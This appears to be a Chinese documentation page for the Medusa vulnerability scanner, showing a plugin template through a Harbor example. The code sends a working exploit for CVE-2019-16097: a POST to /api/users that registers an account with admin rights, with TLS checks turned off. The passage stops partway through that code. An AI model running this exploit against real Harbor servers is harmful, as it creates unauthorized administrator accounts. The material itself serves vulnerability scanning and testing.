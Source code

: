 ## 常规插件模板

> 如果漏洞可以执行远程命令的话，需要在常规模板中添加命令执行模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms,ErrorHandling,Proxies,ExploitOutput,Exploit
import json
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor1.7.6之前版本\r\nHarbor1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(Url:str,Headers:dict,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload
        #在原始传入的标头中添加需要的其他标头
        Headers["Accept"]="application/json"
        Headers["Content-Type"]="application/json"
        
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=Headers, proxies=proxies, timeout=6, verify=False)
        head = resp.headers.get("Location")
```